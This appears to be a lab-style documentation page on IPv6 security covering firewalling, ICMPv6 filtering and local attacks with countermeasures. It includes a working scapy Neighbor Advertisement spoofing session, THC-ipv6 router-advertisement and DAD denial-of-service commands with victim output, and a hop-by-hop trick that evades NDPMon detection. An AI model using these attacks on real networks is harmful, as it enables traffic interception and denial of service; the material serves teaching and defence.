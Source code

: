 =============
IPv6 security
=============

--------------------
Something about IPv6
--------------------

- IPv6 development started in the early 1990 with few focus on security;
- Some IPv4 well known security breaches like arp poisoning, address spoofing, etc. have their correspondent on IPv6;
- Some new IPv6 features create new vulnerabilities as well as transition process;
- There are already many IPv6 hacking tools available for anyone on the Internet;
- IPv6 deployment is still slow and vulnerabilities are not yet widely shared, but this scenario is about to change.


It should be very easy to turn on IPv6 support and enable it to work, that
was the core idea of IPv6. You don't need dhcp anymore, everyone gets IPv6
address for free and basically everything gets configured automatically.
That's for client, but what should we do for router to make it work?

Well it turns out if you do that, you will be mostly very insecure. Not
only that some old attacks affect you, but there are also new attacks that
affect ipv6 users. To make ipv6 secure you must configure it corretly and
test configurations.


-----------------------------------------------    
New IPv6 features and related security problems
-----------------------------------------------

**1.Larger Adress Space:**

    end to end architecture allowing full tracking and some applications 
    that were impossible with IPv4 and NAT, which changes the way network
    scanning and reconnaisance works. New BOGON threats.
    
    "Bogon filtering is the practice of filtering bogons, which are bogus
    IP addresses. Bogon is also an informal name for an IP packet on the public
    Internet that claims to be from an area of the IP address space reserved,
    but not yet allocated or delegated by the Internet Assigned Numbers Authority
    (IANA) or a delegated Regional Internet Registry (RIR). The areas of
    unallocated address space are called the bogon space."

**2.Enhanced Header:**

    simpler and more efficient header with 40 fixed bytes and adds the
    possibility of extension headers which leads to vulnerabilities related
    to them, opening new venues for attacks.

**3. Improved ICMP (ICMPv6) and Multicast management:**

    increased efficiency, allows auto-configuration, neighborhood discovery
    and multicast group management. No authentication can lead to different
    older attacks and new ones. Multicast capabilities can be exploited to
    gather network informations (reconnaissance).

**4. Auto configuration:**

    makes end user configuration easier. A very useful feature for a "tipical"
    computer user, who wants automatization. That also makes end users exposed
    to certain malicious attacks, specially at public locations.

**5. Fragmentation only at source:**

    data transmission are more efficient and have less overhead on intermediary
    routers. That makes ICMPv6 control more difficult, which leads to new
    attacks based on forged ICMPv6 messages.

**6. Mobility support:**

    mobility support integrated in the protocol allows nomadic and roaming
    applications. That means we get new connection interceptions with new
    man-in-the-middle and DOS (denial of service) attacks.

**7. IPv4 to IPv6 transition**

    since IPv4 is said to be used for at least 20 more years, transitioning
    from IPv4 to IPv6 means that most systems will have to run both and also
    use several tunneling techniques, meaning network adiminstrators have to
    put more effort in configuring the network which means more chance of
    having security holes, leading to possible new exploits and attacks.


Get rid of the nat, it's time for firewalls!
--------------------------------------------

With ipv6 we get rid of NAT and all your devices have a public ipv6 address.
But if nat presented security feature in ipv4 networks, now you have to configure
your firewall, and configure it correctly. You have to make sure what you will
let in your network. 

First things first, let's make something clear. We will only let some kind of traffic
inside out network. That's gona be TCP, UDP and some ICMPv6 types. It's very
important which ICMPv6 packets you let in, because as we will see later ICMPv6
has gained much signifficant role in ipv6.

* Firewalling IPv6

  There's nothing special about firewalling ip layer, except now you will have to
  filter all traffic to all hosts on your network.

  Besides that, make sure to filter RH0 header, and i will copy-paste article 
  why, taken form `here <http://www.deployingipv6.net/index.php/archives/2007/06/03/rh0/>`::

    There’s been rather a lot of talk about RH0, that’s IPv6’s type 0 routing header. 
    Broadly speaking, the header allowed you to list a set of places that the 
    packet should go to before its final destination. In the book we commented 
    that source routing used to be a security hot button in IPv4, when 
    authentication based on source IPv4 address was common and packet filtering 
    was not. 

    The problems that we were thinking of were discussed at least going back to 
    the in the mid 90s, and related to source routing allowing any host on the 
    Internet to impersonate any other host and get the returned packets. Usually 
    someone who is doing IP spoofing is making a blind attack, because the replies 
    to the packets that they sent would not be routed back to them. With source 
    routing, some IP stacks would reverse the route for the returned packets, 
    allowing the attacker to get their hands on the replies. With network services 
    like rlogin being common, this was a big threat.

    Some other firewall evasion attacks were also possible with source routed 
    packets, but I think the IP spoofing attacks were most prominent in people’s 
    minds.

    It seems that IPv6 source routing has become a security hot button, but for 
    a slightly different reason. As far as I know, no IPv6 stacks ever reversed 
    the route, so the IP spoofing attacks have never been possible. The firewall 
    evasion attacks are still there, which I don’t think surprised anyone. However, 
    the attacks that caused RH0 to make the press are amplification attacks. 
    The attacks were demonstrated by Philippe Biondi and Arnaud Ebalard and a 
    nice summary was written by Geoff Huston.

    Interest in amplification attacks has grown since attacks like the smurf 
    attack appeared sometime around 1997 and particularly since denial of service 
    attacks became big news. I’m not sure that when the original problems with 
    IPv4 source routing were being discussed that amplification attacks were 
    really considered seriously. I think the full impact of amplification attacks 
    in the modern Internet, particularly with the proliferation of botnets, is 
    yet to fully understood.

    The outcome for IPv6 is that RH0 is now treated as a unknown header by many 
    IPv6 implementations, and will probably be formally retired by the IETF shortly. 
    Other types of routing header (particularly RH2, which is used by Mobile IPv6) 
    should continue to be operate normally, as they do not pose the same risks. 
    I think the remaining interesting question is how do we design a version of 
    RH0 which is both safe and useful.

* Firewalling ICMPv6

  ICMPv6 message types that should be accepted originating and going to the internet 
  are following:

    +----------------------------------------------+--------------------------------------------------------------------+
    | Type                                         | Code                                                               |
    +---------+------------------------------------+-------+------------------------------------------------------------+
    | Value   | Meaning                            | Value | Meaning                                                    |
    +---------+------------------------------------+-------+------------------------------------------------------------+
    |                                  ICMPv6 Error Messages                                                            |
    +---------+------------------------------------+-------+------------------------------------------------------------+
    |    1    | Destination Unreachable            |   0   | no route to destination                                    |
    |         |                                    +-------+------------------------------------------------------------+
    |         |                                    |   1   | communication with destination administratively prohibited |
    |         |                                    +-------+------------------------------------------------------------+
    |         |                                    |   2   | beyond scope of source address                             |
    |         |                                    +-------+------------------------------------------------------------+
    |         |                                    |   3   | address unreachable                                        |
    |         |                                    +-------+------------------------------------------------------------+
    |         |                                    |   4   | port unreachable                                           |
    |         |                                    +-------+------------------------------------------------------------+
    |         |                                    |   5   | source address failed ingress/egress policy                |
    |         |                                    +-------+------------------------------------------------------------+
    |         |                                    |   6   | reject route to destination                                |
    |         |                                    +-------+------------------------------------------------------------+
    |         |                                    |   7   | Error in Source Routing Header                             |
    +---------+------------------------------------+-------+------------------------------------------------------------+
    |    2    | Packet too big                     |   0   |                                                            |
    +---------+------------------------------------+-------+------------------------------------------------------------+
    |    3    | Time Exceeded                      |   0   | hop limit exceeded in transit                              |
    |         |                                    +-------+------------------------------------------------------------+
    |         |                                    |   1   | fragment reassembly time exceeded                          |
    +---------+------------------------------------+-------+------------------------------------------------------------+
    |    4    | Parameter Problem                  |   0   | erroneous header field encountered                         |
    |         |                                    +-------+------------------------------------------------------------+
    |         |                                    |   1   | unrecognized Next Header type encountered                  |
    |         |                                    +-------+------------------------------------------------------------+
    |         |                                    |   2   | unrecognized IPv6 option encountered                       |
    +---------+------------------------------------+-------+------------------------------------------------------------+
    |                                  ICMPv6 Informational Messages                                                    |
    +---------+------------------------------------+-------+------------------------------------------------------------+
    |    128  | Echo request                       |   0   |                                                            |
    +---------+------------------------------------+-------+------------------------------------------------------------+
    |    129  | Echo reply                         |   0   |                                                            |
    +---------+------------------------------------+-------+------------------------------------------------------------+

  Everything else must get dropped!

IPv6, ICMPv6 and local attacks
-----------------------------

With ipv6 icmp has gained much signifficant role, because it's not only
used for error control and flow control like in ipv4, but it has also replaced
functionality that arp used to handle. 
Fragmentation, Neighbor Discovery, and StateLess Address AutoConfiguration 
(SLAAC) represent essential functionality which is now performed using ICMP messages. 
At the same time ICMP messages are designed to be sent to multicast addresses 
instead of unicast addresses.

There are roughly several actions that could be taken to protect agains attackers
abusing ICMPv6:

* Configure firewall correctly to protect agains malicious ICMPv6 messages,
  this is important for all kinds of environments, because this layer
  of security newer hurts, but will in most cases save your ass.
* Use :term:`IPSec`, this is especially feasible for production environemnts.
* Use :term:`SEnD` mechanism instead of pure :term:`NDP` without using IPSec. 
  SEnD uses RSA key pairs instead of IPSec to secure various ICMP messages.
  Implementing this mechanism could be difficult, because not all devices support
  it, but is again feasible for production environemnts.
* Use "intelligent" deprecation tool like `NDPMon <http://ndpmon.sourceforge.net>`_.
* Enable ipv6 privacy extensions on hosts using your network.

Most of the :term:`THC-ipv6` tools are ment especially for pentesting ICMPv6 security.

Attacks
-------

In this section we will present several possible attacks inside ipv6 networks and
needed actions to prevent against. Also some tests will be written latter
to garantee that speciffic network is secure against those attacks.

* Icmp :term:`Neighbor Solicitation`/:term:`Neighbor Advertisement` spoofing

  **Description**

  .. image:: _static/NAspoofing.png

  The ICMP router discovery messages are called :term:`Router Advertisement`
  and :term:`Router Solicitation`. Each router periodically multicasts a 
  Router Advertisement from each of its multicast interfaces, 
  announcing the IP address(es) of that interface. Hosts discover the 
  addresses of their neighboring routers simply by listening for 
  advertisements. When a host attached to a multicast link starts up, 
  it may multicast a Router Solicitation to ask for immediate advertisements, 
  rather than waiting for the next periodic ones to arrive; 
  if (and only if) no advertisements are forthcoming, the host may retransmit 
  the solicitation a small number of times, but then must desist from 
  sending any more solicitations. Any routers that subsequently start up, 
  or that were not discovered because of packet loss or temporary link 
  partitioning, are eventually discovered by reception of their periodic 
  (unsolicited) advertisements.

  Attacker is able to redirect all local traffic to your own system by answering 
  falsely to :term:`Neighbor Solicitation` requests.

  **Attack**

  There's quite easy to perfrorm this attack. Well you can use :term:`THC-ipv6` 
  parasite6 tool, but we will look up how you can craft up required packets by hand.
  
  What you need to do is create :term:`Neighbor Advertisement` packet with spoofed
  mac address. To know whom to spoof you just need to wait for :term:`Neighbor Solicitation`
  multicast messages from other hosts on the network.

  Here is an example of crafting fake :term:`Neighbor Advertisement` using :term:`scapy`::

    >>> ls(Ether)
    dst        : DestMACField         = (None)
    src        : SourceMACField       = (None)
    type       : XShortEnumField      = (0)
    >>> ether=(Ether(dst='08:00:27:ad:c8:30', src='ba:2d:7e:de:15:c6'))
    >>> ls(IPv6)
    version    : BitField             = (6)
    tc         : BitField             = (0)
    fl         : BitField             = (0)
    plen       : ShortField           = (None)
    nh         : ByteEnumField        = (59)
    hlim       : ByteField            = (64)
    src        : SourceIP6Field       = (None)
    dst        : IP6Field             = ('::1')
    >>> ipv6=IPv6(src='fe80::a00:27ff:fedb:225c', dst='fe80::a00:27ff:fead:c830')
    >>> ls(ICMPv6ND_NA)
    type       : ByteEnumField        = (136)
    code       : ByteField            = (0)
    cksum      : XShortField          = (None)
    R          : BitField             = (1)
    S          : BitField             = (0)
    O          : BitField             = (1)
    res        : XBitField            = (0)
    tgt        : IP6Field             = ('::')
    >>> na=ICMPv6ND_NA(tgt='fe80::a00:27ff:fedb:225c', R=0)
    >>> ls(ICMPv6NDOptDstLLAddr)
    type       : ByteField            = (2)
    len        : ByteField            = (1)
    lladdr     : MACField             = ('00:00:00:00:00:00')
    >>> lla=ICMPv6NDOptDstLLAddr(lladdr='ba:2d:7e:de:15:c6')
    >>> packet = ether/ipv6/na/lla

  Now we send this packet and at the same time at the victim machine we monitor
  neighbours on link::

    >>> sendp(packet, iface='priv', loop=1, inter=5)

  Before the attack router's mac is not redirected to attacker::

    vagrant@priv:~$ ip -6 neigh show
    fe80::a00:27ff:fedb:225c dev eth1 lladdr 08:00:27:db:22:5c router STALE
    
  After a few seconds of sending spoofed :term:`Neighbor Advertisement` packets,
  mac address for router gets changed::
    
    vagrant@priv:~$ ip -6 neigh show
    fe80::a00:27ff:fedb:225c dev eth1 lladdr ba:2d:7e:de:15:c6 STALE

  **Countermeasures**

  It's not easy to prevent against this kind of attacks, but there still exists
  some security measures like:

  * Enter static mac addresses of routers

    This is especially usefull on managed environemnts. Setting static mac
    addresses will ensure that they won't get overwritten by attacker sending 
    bogous :term:`Neighbor Advertisement` messages. 

    To set static router MAC addresses on linux you can use following command::

        vagrant@priv:~$ sudo ip -6 neigh replace fe80::MAC lladdr MAC nud permanent dev device

    Neighbour entry is now permanent and :term:`NDP` can't change it, however
    communication betwene host on the network can still get redirected over
    attacker.

  * Use :term:`SeND` or :term:`CGA`
    
    :term:`SeND` is using :term:`CGA` (Cryptographically Generated Address)
    which makes shure that :term:`Neighbor Advertisement` messages are authentic.

    There exists opensource solution called 
    `NDProtector <http://amnesiak.org/NDprotector/>`_, which implements :term:`CGA`
    in userspace.

    .. note:: 

        :term:`CGA` is not wildly deployed and no production read software exists for
        some operating systems, so it is advised not to use it, yet.

  * Tunneling solutions like :term:`IPSec` should be used, but they 
    are not wildly deployed.

* :term:`Router advertisement` spoofing

  **Description**

  When host connects to ipv6 network it usually sends :term:`Router Solicitation`
  to find about active routers in the network on multicast address. Router sends
  periodicly or demand :term:`Router Advertisement` messsages, to inform hosts
  about:

    * IPv6 address prefix (so they can configure their address)
    * DNS server
    * MTU size
    * Should hosts go look for a DHCPv6 server or not
    * NTP server address

  Attacker can spoof :term:`Router Advertisement` messages and perform some pretty
  nasty attacks.

  **Attacks**

  * :term:`Router Advertisement` fake router

    .. image:: _static/RAspoofing.png

    This attack spoofs :term:`Router Advertisement` messsages and tries to become
    router with highest priority.

    :term:`THC-ipv6` tool fake_router6 performs this attack. You can try it with
    these simple commands::

        (ethertest)offlinehacker@ubuntu-dev:~/projects/ethertest# fake_router6 priv 2001:db8:0:1::/64
        Starting to advertise router 2001:db8:0:1:: (Press Control-C to end) ...

    We can quickly see spoofed messages in wireshark and after few moments default
    route on victim gets poisoned with new entry::

        vagrant@priv:~$ ip -6 route show
        2001:db8:0:1::/64 dev eth1  proto kernel  metric 256  expires 8590471sec
        fe80::/64 dev eth0  proto kernel  metric 256 
        fe80::/64 dev eth1  proto kernel  metric 256 
        default via fe80::a00:27ff:fedb:225c dev eth1  proto kernel  metric 1024  expires 86sec
        default via fe80::b82d:7eff:fede:15c6 dev eth1  proto kernel  metric 1024

    If we ping some external address like 2001:db8::fffe, we can quickly see
    that packets gets routed via attacker.

  * :term:`Router Advertisement` flood

    .. image:: _static/RAflood.png

    Hosts like Windows XP, 2003, Vista, 7, and 2003 don’t set a limit on the 
    amount of routers they like to listen to.  Whereas in Linux and Mac they 
    set their limit at right around 15.  If there are more than 15 different 
    RAs coming at them, they stop configuring the address and routes.

    If you send millions of RAs different IPv6 source addresses with different 
    IPv6 prefixes, you can, in a matter of seconds turn a fully functioning 
    Windows machine into a brick.

    :term:`THC-ipv6` tool flood_router6 does exactly that. There's a nice video
    demonstrating this attack avalible at 
    `http://www.youtube.com/watch?v=1EAnjZqXK9E <http://www.youtube.com/watch?v=1EAnjZqXK9E&feature=player_embedded>`_.

  **Countermeasures**

  :rfc:`6104` describes what we can do to prevent :term:`Router Advertisement` 
  spoofing:

  * Implement RA snooping

    Idea is that RAs observed from incorrect sources are blocked or dropped, 
    and not propagated through a subnet. One candidate solution in this space, 
    called "RA-Guard" proposed in :rfc:`6105`.

    .. note:

        This type of solution may not be applicable everywhere, e.g., in environments 
        where there are not centrally controlled or manageable switches.

    `Well it turns out that writing efficient RA guard is not that simple. <http://tachyondynamics.com/blog/?p=27>`_
    There are different evaison techniques, and one of interseting is by
    using fragmentation and putting :term:`Router Advertisement` right behind 
    destintion option header and inside fragmentation header. Once the destination 
    recives this packet (as by design) it puts the packet back together and sees 
    it as an IPv6 RA. 
    However, Destination Options are not meant to be read by intermediate 
    devices like firewalls and/or routers, and that is why the ease of evasion.

    .. image:: _static/2nd-technique-672px.gif

  * SEcure Neighbor Discovery (:term:`SeND`)

  * Using Host-Based Packet Filters

    In a managed environment, hosts could be configured via their
    "personal firewall" to only accept RAs from trusted sources.  Hosts
    could also potentially be configured to discard 6to4-based RAs in a
    managed enterprise environment.

  * Adding Default Gateway/Prefix Options to DHCPv6

    Adding Default Gateway and Prefix options for DHCPv6 would allow
    network administrators to configure hosts to only use DHCPv6 for
    default gateway and prefix configuration in managed networks, where
    RAs would be required today.  A new document has proposed such a
    default router option, along with prefix advertisement options for
    DHCPv6. Even with such options added to DHCPv6,
    an RA is in principle still required to inform hosts to use DHCPv6.

    An advantage of DHCPv6 is that should an error be introduced, only
    hosts that have refreshed their DHCP information since that time are
    affected, while a multicast rogue RA will most likely affect all
    hosts immediately.  DHCPv6 also allows different answers to be given
    to different hosts.

    While making host configuration possible via DHCPv6 alone is a viable
    option that would allow IPv6 configuration to be done in a way
    similar to IPv4 today, the problem has only been shifted: rather than
    rogue RAs being the problem, rogue DHCPv6 servers would be an
    equivalent issue. As with IPv4, a network would then still require
    use of Authenticated DHCP, or DHCP(v6) snooping.

    There is certainly some demand in the community for DHCPv6-only host
    configuration. While this may mitigate the rogue RA issue, it simply
    moves the trust problem elsewhere, albeit to a place administrators
    are familiar with today.

  * Different Tunneling solutions

    Usage of :term:`IPSec`, 802.1X and similar should give you another
    layer of protection, but will cost you performance.

  * Using an "Intelligent" Deprecation Tool

    It is possible to run a daemon on a link (perhaps on the router on
    the link) to watch for incorrect RAs and to send a deprecating RA
    with a router lifetime of zero when such an RA is observed.

    .. note::

        `NDPMon <http://ndpmon.sourceforge.net/>`_ is opensource tool that
        detects anomalies in ICMPv6 and can perform actions, like sending
        mail to administrator or similar.

  ** Trying out NDPMon**

    We tried out how `NDPMon <http://ndpmon.sourceforge.net/>`_ performs
    ad "Intelligent" Deprecation tool.
    It should be easy to setup, and it should learn itself which hosts are
    routers and wich hosts are the neighbours.
    
    Version provided by different linux distribution package managers is sometimes old,
    it's advised to build it from source. You can find instructions at
    `http://ndpmon.sourceforge.net/index.php?n=Doc.Installation http://ndpmon.sourceforge.net/index.php?n=Doc.Installation`_.

    After you do that, you just need to configure it. Basicly you need to specify
    mac, link local addresses of your router interface and ipv6 network prefix::

        vagrant@router:~$ cat /etc/ndpmon/config_ndpmon.xml

        [...]
        <probes>
        <probe name="eth2" type="interface">
            <countermeasures_enabled>1<countermeasures_enabled>
        <routers>
            <router>
                <mac>08:00:27:db:22:5c</mac>
                <lla>fe80::a00:27ff:fedb:225c</lla>
                <param_curhoplimit>64</param_curhoplimit>
                <param_flags_reserved>0</param_flags_reserved>
                <param_router_lifetime>10800</param_router_lifetime>
                <param_reachable_timer>0</param_reachable_timer>
                <param_retrans_timer>0</param_retrans_timer>
                <param_mtu>0</param_mtu>
                <params_volatile>1</params_volatile>
                <addresses/>
                <prefixes>
                    <prefix>
                    <address>2001:db8:0:1::</address>
                    <mask>64</mask>
                    <param_flags_reserved>224</param_flags_reserved>
                    <param_valid_time>2592000</param_valid_time>
                    <param_preferred_time>604800</param_preferred_time>
                    </prefix>
                </prefixes>
            </router>
        </routers>
        </probe>
        </probes>
        [...]

    As you can see NDPMon can run it's probes on multiple interfaces, even on
    remote hosts.

    When there is no attacker NDPMon does not report any alert::

        vagrant@router:~$ sudo ndpmon
        ----- Initialization -----
        Reading configuration file: "/etc/ndpmon/config_ndpmon.xml" ...
        [settings] NDPMon general settings: {
            actions high priority {
                syslog
                no sendmail
                no pipe program
            }
            actions low priority {
                syslog
                no sendmail
                no pipe program
            }
            admin mail root@localhost
            ignor autoconf
            syslog facility LOG_LOCAL1
            no use reverse hostlookups
        }
        [parser] Finished reading the configuration.
        Reading neighbors file: "/var/local/lib/ndpmon/neighbor_list.xml" ...
        [parser] Finished reading the neighbor cache.
        ------------------

        [capture_pcap] Listening on interface eth2.
        ----- ND_ROUTER_ADVERT -----
        Reset timer for 8:0:27:db:22:5c fe80::a00:27ff:fedb:225c
        [parser] Writing cache...
        ------------------

    But if we want to advertise fake router, we can quickly notice new alerts::

        root@ubuntu-dev:~/projects/ethertest# fake_router6 priv 2001:db8:0:1::/64

        ----- ND_ROUTER_ADVERT -----
        [alerts] Alert "wrong ipv6 router" raised on probe "eth2".
        ------------------

    It would be fun to see what happens if we turn on countermeasures::

        vagrant@router:~$ cat /etc/ndpmon/config_ndpmon.xml

        [...]
        <countermeasures>
            <kill_illegitimate_router>RESPOND</kill_illegitimate_router>
            <kill_wrong_prefix>LAUNCH AFTER 10</kill_wrong_prefix>
            <propagate_router_params>CEASE AFTER 10</propagate_router_params>
            <propagate_router_dns>RESPOND</propagate_router_dns>
            <propagate_router_routes>RESPOND</propagate_router_routes>
            <propagate_neighbor_mac>RESPOND</propagate_neighbor_mac>
            <indicate_ndpmon_presence>SUPPRESS</indicate_ndpmon_presence>
        </countermeasures>
        [...]

    We start NDPMon with countermeasures enabled, and we can quickly see that
    they are pretty effective::

        ----- ND_ROUTER_ADVERT -----
        [alerts] Alert "wrong ipv6 router" raised on probe "eth2".
        [countermeasures]: Sent zero lifetime advertisement for illegitimate router.
        ------------------

        ---- ICMP packet ----
        [countermeasures]: Packet dropped as it is a NDPMon counter measure.
        ------------------
       
    As we can see packet is dropped on router and zero lifetime advertisement for
    illegitimate router is send. We can quickly notice that default gateway does
    not get poisoned::

        vagrant@router:~$ sudo ndpmon

        [...]
        vagrant@priv:~$ ip -6 route show
        2001:db8:0:1::/64 dev eth1  proto kernel  metric 256  expires 8590471sec
        fe80::/64 dev eth0  proto kernel  metric 256 
        fe80::/64 dev eth1  proto kernel  metric 256 
        default via fe80::a00:27ff:fedb:225c dev eth1  proto kernel  metric 1024  expires 86sec

    I was wondering if i could evade countermeasures if i turn on :term:`hop-by-hop`
    header using::

        root@ubuntu-dev:~/projects/ethertest# fake_router6 -H priv 2001:db8:0:1::/64
        Starting to advertise router 2001:db8:0:1:: (Press Control-C to end) ...

    Well surprisingly it turned out it worked, NDPMon didn't detect fake 
    :term:`Router Advertisement` packets anymore and i was happily able to poison
    ipv6 routes once again::

        vagrant@priv:~$ ip -6 route show
        2001:db8:0:1::/64 dev eth1  proto kernel  metric 256  expires 8590471sec
        fe80::/64 dev eth0  proto kernel  metric 256 
        fe80::/64 dev eth1  proto kernel  metric 256 
        default via fe80::a00:27ff:fedb:225c dev eth1  proto kernel  metric 1024  expires 67sec
        default via fe80::b82d:7eff:fede:15c6 dev eth1  proto kernel  metric 1024

    So it looks like NDPMon was not so affective after all and we can summarize
    that currently no effective opensource tool, besides tunneling mechanisms 
    exists that would protect against :term:`Router Advertisement` spoofing.

    .. note::

        NDPMon is not useless afterall, it is still able to identify and report
        about new hosts on a network and could be easyly used to monitor managed
        environemnts. At the same time smart attaker won't make any noise and
        only attack speciffic hosts on a switched networks and usually won't be
        detected.

* Denial of Service (DoS) with IP conflicts

  **Description**
 
  Duplicate address detection (DAD) allows hosts to detect if some ipv6 address is
  already assigned when performing :term:`SLAAC`. The process can be described
  as following:

  1. Node tries to assign some address X to it's interface
  2. First it joins multicast group FF02::1 for add nodes and FF02::1:FF00:0:X
  3. It checks if there's any :term:`Neighbor Solicitation` query with same ip
  4. Then it sends :term:`Neighbor Solicitation` query with destination of
     FF02::1:FF00:0:X to ask if there's anybody with this ip on the network
  5. It checks for any :term:`Neighbor Advertisement` to address FF02::1

  In case of events 3 or 5, address is already taken, else node can use it.

  Well what happens if attacker allways responds to DAD with a positive, DDOS.

  **Attack**

  We will once again use `THC-ipc6` tool dos-new-ipv6::

    root@ubuntu-dev:~/projects/ethertest# dos-new-ip6 priv
    Started ICMP6 DAD Denial-of-Service (Press Control-C to end) ...
    Spoofed packet for existing ip6 as fe80::a00:27ff:fead:c830
    Spoofed packet for existing ip6 as fe80::a00:27ff:fead:c830
    Spoofed packet for existing ip6 as 2001:db8:0:1:f489:f23b:bb34:2a44
    Spoofed packet for existing ip6 as 2001:db8:0:1:f489:f23b:bb34:2a44
    Spoofed packet for existing ip6 as 2001:db8:0:1:a00:27ff:fead:c830
    Spoofed packet for existing ip6 as 2001:db8:0:1:a00:27ff:fead:c830
    Spoofed packet for existing ip6 as 2001:db8:0:1:e470:b690:2817:cf15
    Spoofed packet for existing ip6 as 2001:db8:0:1:e470:b690:2817:cf15
    Spoofed packet for existing ip6 as 2001:db8:0:1:e82a:43ce:d93:c667
    Spoofed packet for existing ip6 as 2001:db8:0:1:e82a:43ce:d93:c667
 
  As we can see host tried many times, but was unable to get ip. If we examine
  host ip configuration, ip is not assigned to interface::

    vagrant@priv:~$ ifconfig

    [...]
    eth1      Link encap:Ethernet  HWaddr 08:00:27:ad:c8:30  
            inet addr:10.1.0.18  Bcast:10.1.255.255  Mask:255.255.0.0
            inet6 addr: fe80::a00:27ff:fead:c830/64 Scope:Link
            UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
            RX packets:15677 errors:0 dropped:0 overruns:0 frame:0
            TX packets:1829 errors:0 dropped:0 overruns:0 carrier:0
            collisions:0 txqueuelen:1000 
            RX bytes:1615960 (1.6 MB)  TX bytes:188906 (188.9 KB)
    [...]

  **Countermeasures**

  This attack shares a lot in common with term :term:`Router Advertisement`
  spoofing, so similar methods for prevention could be used.

  ** Trying out NDPMon**

  We decided to try out what NDPMon says about this attack, if tool is able to
  detect it. It turned out it was useless.

* Denial of Service (DoS) with Neighbor floods

There are also some other local attacks that are possible, but like presented
there are no effective mechanism, besides different tunneling to prevent attacks 
inside ipv6 networks.

Secure implementation
---------------------

We have tried to prevent these attacks and find out that only tunneling mechanisms
like :term:`IPSec` or link based authentication mechanisms like :term:`802.11q`
can protect agains local attacks.
